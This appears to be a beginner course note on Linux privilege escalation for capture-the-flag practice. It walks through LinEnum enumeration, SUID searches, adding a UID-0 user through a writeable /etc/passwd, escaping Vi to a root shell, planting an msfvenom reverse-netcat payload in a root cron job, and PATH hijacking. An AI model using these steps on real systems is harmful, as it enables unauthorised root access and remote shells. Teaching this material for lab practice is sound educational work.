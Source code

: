 ```yaml
---
description: Tenth section in Complete Beginner learning path.
---
```


# 10. Linux Privesc

### Introduction

There are two main privilege escalation variants: horizontal and vertical.&#x20;

Horizontal privilege escalation is where you reach over the system you are currently in by taking over different users on the same privilege level. For example, hijacking another normal user when you are logged in as a normal user. This allows you to inherit files from different users, this can be used to gain access to other users who may have files which have SUID bits on them to get super user access.

Vertical privilege escalation is where you attempt to gain higher privileges with an existing compromised account. This might mean hijacking an account with admin or root access.

### LinEnum

LinEnum can be downloaded [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).&#x20;

To get LinEnum on a target machine, you can run `python3 -m http.server 8000` from the directory LinEnum is saved, and then use `wget [IP_ADDR]/LinEnum.sh` on the target. Then you need to make it executable using `chmod +x LinEnum.sh`. If this is not possible, you could also paste the raw code into Vi or Nano, then save it with the .sh extension. Again, you will need to make this executable.&#x20;

LinEnum can be run using `./LinEnum.sh`. The output this gives is broken down into a few different sections:

* Kernel : shows kernel info.
* Can we read/write sensitive files : shows world-writeable files, this allows you to check for misconfigurations
* SUID files : shows SUID bit files, allows a file to run as root (if root is the owner)
* Crontab Contents : shows scheduled cron jobs

### SUID/GUID Files

Maximum privileges on Linux appear as "rwx-rwx-rwx" (r: read, w: write, x: execute). This appears in terminal like:

<table><thead><tr><th width="93">Users</th><th width="100">Group</th><th width="100">Others</th></tr></thead><tbody><tr><td>rwx</td><td>rwx</td><td>rwx</td></tr><tr><td>421</td><td>421</td><td>421</td></tr></tbody></table>

The max number of bits that can be set for each group is 7 (a combination of 4+2+1 for read, write, execute). For example, permissions set using `chmod 755` would be rwxr-xr-x. When special permission is given to a user it becomes SUID or SGID. When extra bit "4" is set to user, it becomes SUID (set user ID), and when bit "2" is set to group it becomes SGID (Set group ID). When looking for these you should look out for:

* SUID : rws-rwx-rwx
* GUID : rwx-rws-rwx

To search for SUID binaries manually we can use:

```
find / -perm -u=s -type f 2>/dev/null
```

* find : initiates find command
* / : searches the whole system
* \-perm : searches for user with specific permissions
* \-us=s : any permission bits mode are set for file
* \-type f : only search for files
* \>2/dev/null : suppress errors

### Exploiting Writeable /etc/passwd

The /etc/passwd file stores essential info which is required during login, the /etc/passwd is a plaintext file. It lists system accounts, giving info like user ID, group ID, home directory, shell and more.

The /etc/passwd file should have general read permission as its used by many command utilities, however, it should only be writeable for root/super user. The file contains one entry per line for each user account of the system. All fields are separated by a ":" symbol. A total of seven files like:

test:x:0:0:root:/root:/bin/bash

These fields from left to right are:

1. Username : used when user logs in, between 1 and 32 chars.
2. Password : an x character indicates an encrypted password is stored in /etc/shadow. You need to use the passwd command to compute the hash of a password typed at CLI or update the hash of a password in /etc/shadow. In this case, the password hash is stored as an "x".
3. User ID (UID) : each user is assigned a user ID, UID 0 is reserved for root and UIDs 1-99 are reserved for other predefined accounts. UIDs 100-999 are reserved for other admin/system accounts.
4. Group ID (GID) : primary group ID (stored in /etc/group).
5. User ID Info : comment field, used to add extra info like a name or number.
6. Home Directory : absolute path to the users home directory when they log in.
7. Command/shell : absolute path of a command or shell, typically this is a shell but it does not have to be.

If /etc/passwd is writeable we can simply write a new line entry using this formula and make a new user, we add our own password hash of choice, and set the UID & GID to 0 for root. We can create a compliant password hash using:

```
openssl passwd -1 -salt [salt] [password]
```

### Escaping Vi

Each time you access an account in a CTF, you should use sudo -l to see which commands you can run as super user on that account. If a misconfigured binary is encountered during enumeration you can use [GTFOBins](https://gtfobins.github.io/) to find out how they can be exploited. This is a list of Unix binaries that can be exploited to bypass security restrictions.

If Vi can be ran as sudo, you can enter `:!sh` and press enter to open a shell as root.

### Exploiting Crontab

We can use `cat /etc/crontab` to see what cron jobs are running or scheduled to run. This can be exploited in situations where a file that we can write to is being automatically run as root. For example, we could write the payload acquired from:

```
msfvenom -p cmd/unix/reverse_netcat lhost=[IP] lport=[PORT] R
```

To a file being run as root, then all we would need to do is start a listener on the same port and wait for the cron job to run the file we wrote our payload to.

### Exploiting PATH Variable

The PATH variable specifies directories which hold executable programs, when the user runs any command it searches for executable files using the PATH variable. If we have an SUID binary running a basic process like "ps", we can't exploit this by giving it an argument for command injection. Instead, we can re-write the PATH variable to point to a location we choose, when the SUID calls the system to run an executable, it runs one we wrote instead.

If we create a command inside /tmp to open a bash shell when "ls" is run, it would look like:

```
echo "/bin/bash" > ls
```

We then make it executable with `chmod +x ls` and change the PATH variable to point to the directory we stored the command in using:

```
export PATH=/tmp:$PATH
```

Now, when we run "ls", it spawns a bash shell. If we had a script running "ls" as root, we could run it to become root.
